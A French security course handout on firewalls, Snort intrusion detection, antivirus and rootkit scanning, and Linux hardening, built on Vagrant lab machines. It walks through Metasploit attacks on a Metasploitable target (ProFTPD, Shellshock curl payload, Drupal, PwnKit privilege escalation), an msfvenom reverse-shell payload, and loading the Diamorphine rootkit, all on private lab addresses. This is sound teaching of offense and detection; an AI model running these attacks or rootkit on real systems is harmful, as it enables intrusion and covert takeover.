systemctl enable nginx
systemctl start nginx
nginx -s reload
SHELL
endIPS :
À ne faire que sur réseau contrôlé !
-
metasploitable3-ub1404 :
-
Environnement volontairement vulnérable.
-
Outil "Snort" installé pour (non-détection) d'intrusion.
-
-
poste client (= machine hôte) :
-
Metasploit framework (à installer !).
-
Penetration testing framework.
-
Utilisé pour démontrer attaques / déclencher alarmes ou absence d'alarme de Snort.
-
Metasploitable : attendre les instructions du cours - exercices à ne faire que sur un réseau contrôlé ! Dans la mesure du possible, essayer d'installer Metasploit (la version open source) sur votre machine hôte.
Voici le Vagrantfile de la VM "metasploitable3-ub1404" :
# coding: utf-8
Vagrant.configure("2") do |config|
config.vm.synced_folder '.', '/vagrant', disabled: true
config.vm.define "ub1404" do |ub1404|
ub1404.vm.box = "rapid7/metasploitable3-ub1404"
ub1404.vm.hostname = "metasploitable3-ub1404"
config.ssh.username = 'vagrant'
config.ssh.password = 'vagrant'
ub1404.vm.network "private_network", ip: '172.28.128.3'
ub1404.vm.provider "virtualbox" do |v|
v.name = "M-ub1404"
v.memory = 2048
end
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Chargement des packages, en mode non-interactif(!)
DEBIAN_FRONTEND=noninteractive apt-get install -y snort
# Nettoyage des directories snort, ils seront remplacés via sftp
rm -rf /etc/snort
mkdir /etc/snort
mkdir /etc/snort/rules
SHELL
end
endPare-feu et segmentation : Concepts et motivation :
Motivation :
-
Contexte :
-
Accès malveillant au réseau.
-
... voir cours sécurité réseau.
-
-
Motivation :
-
"hygiène" de base.
-
Défense en profondeur.
-
Type de pare-feu :
-
Simple inspection des paquets. Filtrage sur :
-
Adresse d'origine.
-
Protocole.
-
Adresse et port de destination.
-
...
-
-
Idem + exploitation de la notion d'état :
-
Capitalise sur la notion de transaction en cours.
-
Reste limité à un niveau relativement bas dans les couches OSI.
-
-
"Deep Packet Inspection" :
-
Est capable d'exploiter de l'information plus haut dans la couche OSI.
-
... réalité ?
-
Catégorisation floue avec IPS.
-
-
Topologie :
-
1 unique fw en amont.
-
2 fw avec serveurs ouverts à l'extérieur au milieu.
-
Firewalls sur hôtes.
-
-
Type de machine pour accueillir firewall :
-
"appliances" spécialisées.
-
Distribution ad-hoc.
-
Distribution généraliste ok seulement dans cas simples, ou en complément.
-
Pare-feu et segmentation : Implémentation type :
Accès à une machine non sécurisée :
Services disponibles :
sudo nmap 172.28.128.17En résumé, cette commande scanne les ports ouverts de la machine cible.
web-servers accessibles de l'extérieur :
Voici les différentes commandes exécutées dans l'image précédente :
curl 172.28.128.17En résumé, cette commande envoie une requête HTTP au serveur sur le port 80.
curl 172.28.128.17:8081En résumé, cette commande envoie une requête HTTP sur le 8081.
web-servers accessibles de l'intérieur :
Voici les différentes commandes exécutées dans l'image précédente :
curl localhostEn résumé, cette commande teste le serveur web en local (port 80).
cd /etc/nginx/conf.dEn résumé, cette commande accède au dossier de configuration des sites Nginx.
curl localhost:8081En résumé, cette commande teste le serveur web local sur le port 8081.
Iptables - accès à logique de filtrage interne au noyau :
Commandes :
cat v4En résumé, cette commande affiche le contenu du fichier de règles iptables.
Voici le contenu du fichier `v4` :
*filter
# Allow all loopback (lo0) traffic and reject traffic
# to localhost that does not originate from lo0.
-A INPUT -i lo -j ACCEPT
-A INPUT ! -i lo -s 127.0.0.0/8 -j REJECT
# Allow ping.
-A INPUT -p icmp -m state --state NEW --icmp-type 8 -j ACCEPT
# Allow SSH connections.
-A INPUT -p tcp --dport 22 -m state --state NEW -j ACCEPT
# Allow HTTP and HTTPS connections from anywhere
# (the normal ports for web servers).
-A INPUT -p tcp --dport 80 -m state --state NEW -j ACCEPT
-A INPUT -p tcp --dport 443 -m state --state NEW -j ACCEPT
# Allow inbound traffic from established connections.
# This includes ICMP error returns.
-A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
# Log what was incoming but denied (optional but useful).
-A INPUT -m limit --limit 5/min -j LOG --log-prefix "iptables_INPUT_denied: " --log-level 7
# Reject all other inbound.
-A INPUT -j REJECT
# Log any traffic that was sent to you
# for forwarding (optional but useful).
-A FORWARD -m limit --limit 5/min -j LOG --log-prefix "iptables_FORWARD_denied: " --log-level 7
# Reject all traffic forwarding.
-A FORWARD -j REJECT
COMMITLa ligne *filter dit qu'on travaille dans la table filter (la plus classique) qui, elle, sert à autoriser/bloquer le trafic.
La ligne -A INPUT -i lo -j ACCEPT indique qu'on autorise tout le trafic venant de localhost (lo).
La ligne -A INPUT ! -i lo -s 127.0.0.0/8 -j REJECT permet de bloquer toute tentative d'usurpation. C'est-à-dire, si une IP 127.X.X.X n'arrive pas via lo = spoofing → rejeté.
La ligne -A INPUT -p icmp -m state --state NEW --icmp-type 8 -j ACCEPT autorise les pings entrants (icmp-type 8 = echo request).
La ligne -A INPUT -p tcp --dport 22 -m state --state NEW -j ACCEPT dit qu'on autorise les connexions SSH (port 22).
Les lignes -A INPUT -p tcp --dport 80 -m state --state NEW -j ACCEPT et -A INPUT -p tcp --dport 443 -m state --state NEW -j ACCEPT autorisent respectivement HTTP (80) et HTTPS (443). Donc, ton serveur web est accessible.
La ligne -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT permet d'autoriser les réponses à des connexions déjà ouvertes et les connexions liées. Super important sinon rien ne fonctionne correctement.
La ligne -A INPUT -m limit --limit 5/min -j LOG --log-prefix "iptables_INPUT_denied: " --log-level 7 indique qu'on log les paquets refusés (max 5/min). C'est utile pour le débogage.
La ligne -A INPUT -j REJECT dit que tout ce qui n'est pas autorisé est rejeté. Politique : deny by default.
La ligne -A FORWARD -m limit --limit 5/min -j LOG --log-prefix "iptables_FORWARD_denied: " --log-level 7 permet de logger les paquets en transit refusés.
La ligne -A FORWARD -j REJECT bloque tout routage. Donc, la machine ne sert pas de routeur.
La ligne COMMIT dit qu'on applique toutes les règles.
Configuration du firewall :
Changement des règles firewall réservé à l'admin → SUDO réseau donc.
On est au niveau du noyau. fw est une interface créée pour simplifier la configuration sur le noyau.
Voici les différentes commandes exécutées dans l'image précédente :
sudo iptables-restore < v4En résumé, cette commande charge et applique les règles iptables depuis le fichier v4.
Le fichier `v4` est un fichier de règles iptables. Il configure le pare-feu Linux (table filter).
sudo iptables -vL --line-numbersEn résumé, cette commande affiche les règles du firewall avec détails et numéros de ligne.
Accès à une machine sécurisée :
Services disponibles :
sudo nmap 172.28.128.17Mieux de le faire avec sudo car on a plus d'infos (même parfois intrusives).
web-servers accessibles de l'extérieur :
Voici les différentes commandes exécutées dans l'image précédente :
curl 172.28.128.17curl 172.28.128.17:8081web-servers accessibles de l'intérieur :
Voici les différentes commandes exécutées dans l'image précédente :
curl localhostcurl localhost:8081Notion de gestion de l'état de la connexion :
Échanges avec l'extérieur (y compris retours !) :
Voici les différentes commandes exécutées dans l'image précédente :
curl web-server.gac.xpertsys.be:8081En résumé, cette commande teste l'accès HTTP à un serveur externe sur le port 8081.
ssh XXX7@XX.XX.XX.XXEn résumé, cette commande se connecte à une machine distante via SSH.
Rajout d'une règle pour serveur 8081 :
Configuration :
Voici les différentes commandes exécutées dans l'image précédente :
sudo iptables -I INPUT 7 -p tcp --dport 8081 -m state --state NEW -j ACCEPTEn résumé, cette commande autorise les nouvelles connexions TCP sur le port 8081 (ajoutée en position 7).
sudo iptables -vL --line-numbersAccès à une machine sécurisée :
Services disponibles :
sudo nmap 172.28.128.17web-servers accessibles de l'extérieur :
curl 172.28.128.17:8081Détection/prévention d'intrusion : Concepts :
Principe de fonctionnement :
-
Bonne connaissance des protocoles.
-
Fonctionne au-dessus du niveau "réseau" pur.
-
Souvent basé sur des règles (parfois détection d'anomalies).
Détection/prévention d'intrusion : Implémentation type :
Snort + Metasploitable + Metasploit Framework :
C'est largement inspiré de https://cybersecuritybase.mooc.fi/module-5.1/index.
-
Snort :
-
Open Source Intrusion Prevention System.
-
Basées sur des règles (ici : community & emergent rule sets).
-
-
-
Système d'exploitation avec services, volontairement vulnérable.
-
-
-
Outil de pentesting.
-
Voici les différentes étapes à faire :
-
vagrant up -
Attendre que tout soit prêt.
-
Récupérer le port SSH avec la commande suivante :
vagrant port -
./copy-snort-conf.sh <PORT>Ce script sert à copier ta configuration Snort personnalisée dans la VM.
Tu dois relancer ce script à chaque fois que tu modifies tes règles Snort ou si la VM est recréée (vagrant destroy).
Voici le contenu du fichier `copy-snort-conf.sh` :
#! /bin/bash sftp -s "sudo /usr/lib/openssh/sftp-server" -i .vagrant/machines/ub1404/virtualbox/private_key -P "$1" -o StrictHostKeyChecking=no vagrant@127.0.0.1 <<EOF put -fr ./snort-conf/* /etc/snort exit EOF -
vagrant ssh -
./start-snort.shCe script sert à lancer Snort pour surveiller le trafic.
Voici le contenu du fichier `start-snort.sh` :
#! /bin/bash sudo snort -A console -u snort -g snort -c /etc/snort/snort.conf -i eth1 -k none
Snort : Règles :
/etc/snort/snort.conf :
Metasploit Framework : exploration :
Nmap :
sudo nmap -n -sS -sV -sC 172.28.123.3 -p0-65535 #proFTP exploit :
Configuration Metasploit Framework :
Voici les différentes commandes exécutées dans l'image précédente :
use exploit/unix/ftp/proftp_modcopy_execCe que je vais exploiter.
set payload cmd/unix/reverse_per1set -g rhosts 172.28.128.3Je vais attaquer le .3.
set -g lhost 172.28.128.1On contacte cette adresse.
set sitepath /var/www/htmlOn met notre page malicieuse ici.
Résumé configuration Metasploit Framework :
optionsExploitation :
runDétection :
Contenu règle :
Voici les différentes commandes exécutées dans l'image précédente :
cd /etc/snort/rulesgrep "sid:1356" *Vulnérabilité :
infoPayload :
On peut les créer avec l'open source VENIN. On va le faire prochainement.
Shellshock (bug présent depuis 1989 (!)) :
C'est resté 19 ans non détecté !
Metasploit Framework :
optionsExploitation :
runEn faisant Shell (une sorte de petit payload qui appelle un plus gros payload plus sophistiqué), je peux avoir plein de commandes de disponible pour faire ce que je veux sur la machine attaquée.
Détection :
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
https://www.infosecarticles.com/exploiting-shellshock-vulnerability/
La manière de les parser peut être une ouverture de vulnérabilité.
Exploitation détaillée :
Voici les différentes commandes exécutées dans l'image précédente :
bash -c /var/www/cgi-bin/hello_world.shDans la machine hôte :
curl https://172.28.128.3/cgi-bin/hello_world.shcurl -A "() { echo sans danger ; }; echo Content-Type: text/plain ; echo ; echo; echo dangereux" http://172.28.128.3/cgi-bin/hello_world.shRègle détaillée :
Contenu règle :
cd /etc/snort/rulesgrep sid:20222028 *Drupal exploit :
Configuration Metasploit Framework :
use exploit/unix/webapp/drupal_coder_exeRésumé configuration Metasploit Framework :
Exploitation :
runDétection :
(Néant)
On a vu les faux positifs et là on va voir les positifs mais jamais détecté ou très tard (Shell ou Drupal).
Détection/prévention d'intrusion : Forces et faiblesses :
Avantages/Limites :
-
Avantages :
-
Capte des attaques non détectables à un niveau inférieur.
-
Inspection possible du trafic...
-
... arrêt possible aussi (prévention).
-
Priorités dans les règles, donc optimisation du travail.
-
Aide dans certains contextes régulatoires (logs).
-
-
Limites :
-
Nécessité d'avoir de "bonnes" règles (pas trop de faux positifs, peu d'attaques réelles manquées).
-
Certaines alertes pas très spécifiques.
-
Attaques spécifiquement conçues pour contourner la détection.
-
Attaques fragmentées.
-
Faux sens de sécurité si utilisé seul.
-
Consommation de resources machine (il faut configurer la RAM etc pour ça).
-
Saturation possible du personnel de sécurité.
-
Scanning : virus et rootkits : environnements de travail :
Box Vagrant Scanning :
-
scanning :
-
Démo protection virus et rootkit.
À télécharger et démarrer comme d'habitude. Attention, il se peut que votre anti-virus rejette le fichier eicarcom2.zip - ce qui serait plutôt une bonne chose :-) car sa "signature" fait penser à un virus. Au besoin, utiliser la boîte "scanning-sanitized".
Votre poste hôte gagne à être équipé de Metasploit Framework.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.box_version = "20240115.0.0" #diamorphine (https://github.com/m0nad/Diamorphine) est assez sensible aux versions config.vm.network "private_network", ip: '172.28.128.21' config.vm.provision "file", source: "./shell", destination: "/home/vagrant/shell" config.vm.provision "file", source: "./shell2", destination: "/home/vagrant/shell2" config.vm.provision "file", source: "./eicarcom2.zip", destination: "/home/vagrant/eicarcom2.zip" config.vm.provider "virtualbox" do |v| v.name = "scanning" v.memory = 2048 end config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y clamav clamav-daemon chkrootkit # Continuation, fix pour Diamorphine qui ne trouve pas vmlinux au moment de la compilation # Voir https://askubuntu.com/questions/1348250/skipping-btf-generation-xxx-due-to-unavailability-of-vmlinux-on-ubuntu-21-04 DEBIAN_FRONTEND=noninteractive apt-get install -y pahole cp /sys/kernel/btf/vmlinux /usr/lib/modules/"$(uname -r)"/build/ # Mise à jour de la base de donnée des virus systemctl stop clamav-freshclam freshclam systemctl enable clamav-freshclam --now # rendre les payloads exécutables chmod +x shell chmod +x shell2 SHELL endVoici le Vagrantfile de la VM nommée "scanning-sanitized" :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.box_version = "20240115.0.0" #diamorphine (https://github.com/m0nad/Diamorphine) est assez sensible aux versions config.vm.network "private_network", ip: '172.28.128.21' #config.vm.provision "file", source: "./shell", destination: "/home/vagrant/shell" #config.vm.provision "file", source: "./shell2", destination: "/home/vagrant/shell2" #config.vm.provision "file", source: "./eicarcom2.zip", destination: "/home/vagrant/eicarcom2.zip" config.vm.provider "virtualbox" do |v| v.name = "scanning-sanitized" v.memory = 2048 end config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y clamav clamav-daemon chkrootkit # Continuation, fix pour Diamorphine qui ne trouve pas vmlinux au moment de la compilation # Voir https://askubuntu.com/questions/1348250/skipping-btf-generation-xxx-due-to-unavailability-of-vmlinux-on-ubuntu-21-04 DEBIAN_FRONTEND=noninteractive apt-get install -y pahole cp /sys/kernel/btf/vmlinux /usr/lib/modules/"$(uname -r)"/build/ # Mise à jour de la base de donnée des virus systemctl stop clamav-freshclam freshclam systemctl enable clamav-freshclam --now # rendre les payloads exécutables #chmod +x shell #chmod +x shell2 SHELL end -
-
Metasploit sur machine hôte :
-
Test "payload".
-
Scanning : Détection de virus et rootkit :
Détection de virus :
Exemple Clamav - mise à jour des signatures :
Voici les différentes commandes exécutées dans l'image précédente :
sudo systemctl stop clamav-freshclamEn résumé, cette commande arrête le service de mise à jour automatique de ClamAV (anti-virus).
sudo freshclamEn résumé, cette commande met à jour manuellement la base de signatures de virus.
sudo systemctl enable clamav-freshclam --nowEn résumé, cette commande dit au système : Active les mises à jour automatiques de l'antivirus et démarre-les maintenant.
Création d'un payload de type "reverse shell" :
https://www.hackingarticles.in/msfvenom-tutorials-beginners/
Voici les différentes commandes exécutées dans l'image précédente :
cd ~/DownloadsSur la machine hôte, il faut que le firewall autorise les connexions entrantes sur le port 4444, utilisé par le payload pour établir la connexion avec la commande suivante :
sudo ufw allow 4444Il faut également lancer la console principale de Metasploit Framework sur la machine hôte et configurer un handler afin d'écouter la connexion entrante du reverse shell avec la commande suivante :
msfconsole -q -x "exit" # initialise Metasploit Frameworkmsfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp lhost=172.28.128.1 lport=4444 -f elf > /home/galagao/shellEn résumé, cette commande génère un malware (reverse shell) qui se connecte à ton IP.
cp ~/shell /le-chemin-vers-directory-ayant-créé-vmEn résumé, cette commande copie le fichier généré vers un autre dossier.
Dans la VM "scanning" ou scanning-sanitized" :
cp /vagrant/shell . # copie payload dans VMchmod +x shell # rend exécutablefile shellConfiguration de l'écoute dans msfconsole :
Voici les différentes commandes exécutées dans l'image précédente :
use exploit/multi/handlerEn résumé, cette commande charge un module pour recevoir une connexion reverse shell.
set payload linux/x86/meterpreter/reverse_tcpEn résumé, cette commande définit le type de payload à utiliser.
set lhost 172.28.128.1En résumé, cette commande définit l'IP de la machine attaquante.
set lport 4444En résumé, cette commande définit le port d'écoute.
Exploitation du système :
Voici les différentes commandes exécutées dans l'image précédente :
./shellEn résumé, cette commande lance le malware (reverse shell).
runEn résumé, cette commande lance l'exploit / met en attente une connexion.
shellEn résumé, cette commande ouvre un shell système sur la machine victime.
exitEn résumé, cette commande quitte la session.
Scan du système :
clamscan ~En résumé, cette commande scanne ton dossier personnel à la recherche de virus.
Fichier test eicarcom - windows (pas 64 bits) - détecté malgré zip :
https://www.eicar.org/download-anti-malware-testfile/
Considérations :
-
Nécessite mise à jour fréquente des signatures; automatisation (!).
-
Problématique de la fiabilité - faux positifs, faux négatifs.
-
Idéalement placé sur proxy - mail.
-
Faire tourner régulièrement; automatisation (!).
-
Assez consommateur, notamment en mémoire - voir Vagrantfile.
-
Comme toujours, une partie de solution seulement.
Rootkits :
Evi Nemeth & co.
-
Les hackers cachent leur activité - persistance de l'attaque dans le temps.
-
Rootkits = programmes & modifications de commandes standards ou du kernel lui-même.
-
But : dissimuler l'information.
-
Contre-mesures :
-
Host-based Intrusion Detection System (AIDE, OSSEC...) - vérifie l'intégrité de fichiers clés.
-
Programmes spécialisés.
-
Détection de rootkit :
Programme chkrootkit :
sudo chkrootkitEn résumé, cette commande scanne le système pour détecter des rootkits.
Considérations :
-
Nécessite mise à jour fréquente; automatisation (!).
-
Problématique de la fiabilité - faux positifs, faux négatifs.
-
Faire tourner régulièrement; automatisation (!).
-
Comme toujours, une partie de solution seulement.
Scanning : Démo rootkit :
https://github.com/m0nad/Diamorphine
https://github.com/m0nad/Diamorphine/issues/20
Installation sur box "hard" :
Voici les différentes commandes exécutées dans l'image précédente :
sudo apt install git gcc make linux-headers-$(uname -r)En résumé, cette commande installe les outils nécessaires pour compiler un module kernel.
git clone https://github.com/m0nad/DiamorphineEn résumé, cette commande télécharge le rootkit
cd DiamorphinemakeEn résumé, cette commande compile le rootkit.
sudo insmod diamorphine.koEn résumé, cette commande charge le rootkit dans le noyau Linux. C'est la seule commande qui introduit la vulnérabilité dans le système.
Exploitation 1 :
Voici les différentes commandes exécutées dans l'image précédente :
lsmod | grep diamEn résumé, cette commande vérifie si le module rootkit est chargé.
kill -63 0En résumé, cette commande active le mode furtif du rootkit (cache processus/modules).
lsmod | grep diamps aux | grep sshdEn résumé, cette commande liste les processus SSH.
kill -31 789En résumé, cette commande cache un processus spécifique (PID 789).
ps aux | grep sshdExploitation 2 :
Voici les différentes commandes exécutées dans l'image précédente :
mkdir diamorphine_secret_jeanEn résumé, cette commande crée un dossier (qui peut être caché par le rootkit).
lscd diamorphine_secret_jeanExploitation 3 :
Voici les différentes commandes exécutées dans l'image précédente :
idEn résumé, cette commande affiche l'utilisateur courant.
kill -64 0En résumé, cette commande donne les privilèges root (backdoor du rootkit).
idDétection :
sudo chkrootkit -qEn résumé, cette commande lance le scan en mode silencieux (moins de détails).
Pratique détection et pentesting : environnements de travail :
Box Vagrant Pratique Detection :
Le but est de mettre en pratique les détections vues au cours Réseau et Scanning et l'exemple étendu de pentesting & de détection (voir plus tard). Si vous utilisez la machine virtuelle pentest ci-dessous, penser à spécifier que lhost a l'adresse 172.28.128.222 !
Les machines virtuelles sont :
-
metasploitable3-ub1404-2 :
-
Machine cible intentionnellement vulnérable.
-
Snort installé.
-
Version légèrement améliorée de metasploitable; le nom de la machine virtuelle posait problèmes pour certaines versions de VirtualBox.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.synced_folder '.', '/vagrant', disabled: true config.vm.define "ub1404" do |ub1404| ub1404.vm.box = "rapid7/metasploitable3-ub1404" ub1404.vm.hostname = "metasploitable3-ub1404" config.ssh.username = 'vagrant' config.ssh.password = 'vagrant' ub1404.vm.network "private_network", ip: '172.28.128.3' ub1404.vm.provider "virtualbox" do |v| # v.name = "M-ub1404" Semble créer des problèmes avec certaines versions de VirtualBox v.memory = 2048 end config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get install -y snort # Nettoyage des directories snort, ils seront remplacés via sftp rm -rf /etc/snort mkdir /etc/snort mkdir /etc/snort/rules SHELL end end -
-
scanning-sanitized :
-
Anti-virus installé, mais pas de virus pour faciliter l'installation.
-
Version de scanning sans les fichiers posant des problèmes aux anti-virus.
-
-
pentest :
-
Metasploitable Framework et Nmap installés, c'est-à-dire pas besoin d'installer ces outils sur la machine hôte.
-
! adresse 172.28.128.222.
Voici le Vagrantfile de cette VM :
# coding: utf-8 # -*- mode: ruby -*- # vi: set ft=ruby : Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" # Create a private network. In VirtualBox, this is a Host-Only network config.vm.network "private_network", ip: "172.28.128.222" # VirtualBox specific settings config.vm.provider "virtualbox" do |vb| # Hide the VirtualBox GUI when booting the machine vb.gui = false # Customize the amount of memory on the VM: vb.memory = "4096" end # Provision the machine with a shell script config.vm.provision "shell", inline: <<-SHELL #!/bin/bash # installation metasploit framework curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \ chmod 755 msfinstall && \ ./msfinstall # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y nmap SHELL end -
Détection et pentesting : Exemple étendu :
Accès initial :
Configuration
msfconsoleuse exploit/unix/webapp/drupal/coder_execoptionsEn résumé, cette commande affiche les paramètres du module sélectionné.
set rhosts 172.28.128.3set targeturi /drupal/set lhost 172.28.128.222optionsObtention d'une session à distance :
runUpgrade de la session :
Création d'une session meterpreter :
sessionsRecherche de vulnérabilités locales :
Configuration et recherche :
use post/multi/recon/local_exploit_suggesteroptionsset session 2optionshttps://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/
Exécution de l'élévation de privilège :
Configuration :
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexecoptionsset session 2set lohost 172.28.128.222optionshttps://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/
Obtenir des privilèges :
Voici les différentes commandes exécutées dans l'image précédente :
runshellhttps://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/
Pratique individuelle du pentesting et de la détection/prévention d'intrusion :
En vous basant sur les exemples des sections "Réseau : pare-feu & segmentation; détection & prévention d'intrusion", "Scanning" et "Détection, prévention d'intrusion : mise en pratique" et les boîtes Varant correspondantes, refaire et documenter au moins deux attaques sur une machine metasploitable. Expliquer les étapes, et si possible, l'exploitation faite.
Bonus : pour des attaques que vous trouvez vous-même ou sur Internet (voir par exemple https://web.archive.org/web/20210126234700/https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/).
Deuxième bonus : documenter la détection ou non par Snort.
Sécurisation des hôtes (Linux) : Du patching à l'isolation et au sandboxing : Environnements de travail :
maintenance-sec (172.28.128.222) :
-
Démo sécurisation : patching, services, SSH, isolation, sandboxing.
-
Serveur web 3 couches: nginix (www-data) → socket Unix → PHP-FPM (appphp) → socket Unix → MariaDB (mysql)
-
Partie "Canonical Expaded Security Maintenance" et "Ubuntu Security Guide" nécessite une clé propre (gratuite). https://login.ubuntu.com/
Voici le Vagrantfile de cette VM :
# coding: utf-8
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.box_version = "20240115.0.0"
config.vm.network "private_network", ip: '172.28.128.222'
config.vm.provider "virtualbox" do |v|
v.name = "maintenance-sec"
v.memory = 1024
end
config.vm.provision "shell", inline: <<-'SHELL'
#!/bin/bash
set -euo pipefail
# --- Packages ---
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y \
nginx \
php8.1-fpm \
php8.1-mysql \
mariadb-server \
lynis \
chkrootkit \
unattended-upgrades \
apt-listchanges \
fish
# --- MariaDB : sockets uniquement, pas de TCP ---
cat > /etc/mysql/mariadb.conf.d/99-no-tcp.cnf <<'EOF'
[mysqld]
skip-networking = 1
EOF
systemctl restart mariadb
# --- Base de données et utilisateur limité (unix_socket auth) ---
mysql -u root <<'SQL'
CREATE DATABASE IF NOT EXISTS demo CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;
USE demo;
CREATE TABLE IF NOT EXISTS messages (
id INT AUTO_INCREMENT PRIMARY KEY,
content VARCHAR(255) NOT NULL
);
INSERT INTO messages (content) VALUES
('Bonjour depuis la base de données'),
('Deuxième message de test');
-- unix_socket auth : MariaDB vérifie que l'OS user = 'appphp'
-- aucun mot de passe stocké dans le code PHP
CREATE USER IF NOT EXISTS 'appphp'@'localhost' IDENTIFIED VIA unix_socket;
GRANT SELECT ON demo.messages TO 'appphp'@'localhost';
FLUSH PRIVILEGES;
SQL
# --- Utilisateur système dédié pour PHP-FPM ---
useradd --system --no-create-home --shell /usr/sbin/nologin appphp
# nginx (www-data) peut accéder au socket du pool appphp
usermod -aG appphp www-data
# --- Pool PHP-FPM dédié : user appphp, socket accessible à www-data uniquement ---
cat > /etc/php/8.1/fpm/pool.d/appphp.conf <<'EOF'
[appphp]
user = appphp
group = appphp
listen = /run/php/appphp-fpm.sock
listen.owner = appphp
listen.group = www-data
listen.mode = 0660
pm = dynamic
pm.max_children = 5
pm.start_servers = 2
pm.min_spare_servers = 1
pm.max_spare_servers = 3
EOF
# Désactiver le pool www par défaut
mv /etc/php/8.1/fpm/pool.d/www.conf /etc/php/8.1/fpm/pool.d/www.conf.disabled
# --- Application PHP (PDO via socket Unix, unix_socket auth, sans mot de passe) ---
mkdir -p /var/www/demo
cat > /var/www/demo/index.php <<'EOF'
<?php
try {
$pdo = new PDO(
'mysql:unix_socket=/run/mysqld/mysqld.sock;dbname=demo;charset=utf8mb4',
'appphp', // OS user appphp (unix_socket auth — pas de mot de passe stocké)
''
);
// PDO::ERRMODE_EXCEPTION : une erreur DB lève une exception (pas de plantage silencieux)
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$stmt = $pdo->query('SELECT content FROM messages');
echo "<ul>\n";
while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
echo " <li>" . htmlspecialchars($row['content']) . "</li>\n";
}
echo "</ul>\n";
} catch (PDOException $e) {
http_response_code(500);
echo "Erreur base de données\n";
}
EOF
chown appphp:appphp /var/www/demo/index.php
# --- nginx : socket Unix vers PHP-FPM appphp, refus fichiers cachés ---
cat > /etc/nginx/sites-available/demo <<'EOF'
server {
listen 80;
server_name _;
root /var/www/demo;
index index.php;
location ~ /\. { deny all; }
location / { try_files $uri /index.php$is_args$args; }
location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/run/php/appphp-fpm.sock;
}
}
EOF
rm -f /etc/nginx/sites-enabled/default
ln -sf /etc/nginx/sites-available/demo /etc/nginx/sites-enabled/demo
# --- systemd overrides : nginx ---
mkdir -p /etc/systemd/system/nginx.service.d
cat > /etc/systemd/system/nginx.service.d/sandbox.conf <<'EOF'
[Service]
NoNewPrivileges=yes
PrivateTmp=yes
ProtectHome=yes
ProtectSystem=yes
EOF
# --- systemd overrides : php8.1-fpm ---
mkdir -p /etc/systemd/system/php8.1-fpm.service.d
cat > /etc/systemd/system/php8.1-fpm.service.d/sandbox.conf <<'EOF'
[Service]
NoNewPrivileges=yes
PrivateTmp=yes
ProtectHome=yes
ProtectSystem=yes
RestrictAddressFamilies=AF_UNIX
EOF
# --- systemd overrides : mariadb (PrivateTmp non activé par défaut dans le paquet) ---
mkdir -p /etc/systemd/system/mariadb.service.d
cat > /etc/systemd/system/mariadb.service.d/sandbox.conf <<'EOF'
[Service]
PrivateTmp=yes
EOF
systemctl daemon-reload
systemctl restart php8.1-fpm
systemctl restart nginx
systemctl restart mariadb
# --- Kernel hardening via sysctl ---
cat > /etc/sysctl.d/99-hardening.conf <<'EOF'
# ASLR : aléatoirisation de l'espace d'adressage
kernel.randomize_va_space = 2
# dmesg restreint aux processus root
kernel.dmesg_restrict = 1
# Ce serveur n'est pas un routeur
net.ipv4.ip_forward = 0
# Ignorer les redirections ICMP
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.all.send_redirects = 0
# Protection contre les SYN flood
net.ipv4.tcp_syncookies = 1
EOF
sysctl --system
# --- SSH hardening via sshd_config.d ---
cat > /etc/ssh/sshd_config.d/10-hardening.conf <<'EOF'
PasswordAuthentication no
PermitRootLogin no
MaxAuthTries 3
X11Forwarding no
AllowAgentForwarding no
ClientAliveInterval 300
ClientAliveCountMax 2
EOF
systemctl reload ssh
# --- AppArmor : actif par défaut sur Ubuntu, vérification ---
aa-status --enabled && echo "AppArmor actif" || echo "AppArmor inactif"
echo "=== maintenance-sec pret ==="
echo " http://172.28.128.222/"
echo " PHP-FPM socket: /run/php/appphp-fpm.sock (appphp:www-data 660)"
echo " MariaDB socket: /run/mysqld/mysqld.sock (mysql:mysql 777, unix_socket auth)"
echo " SSH hardening: /etc/ssh/sshd_config.d/10-hardening.conf"
echo " Sysctl: /etc/sysctl.d/99-hardening.conf"
SHELL
endSécurisation des hôtes (Linux) : Approche générale de sécurisation :
Causes générales :
Evi Nemeth & co
-
Social Engineering :
-
phishing
-
...
-
-
Vulnérabilités des programmes :
-
Buffer overflow
-
...
-
-
Fraude interne :
-
Concept d'entreprise "étendue"
-
...
-
-
Erreurs de configuration :
-
Ports exposés
-
Identification / authentification trop "relax"
-
...
-
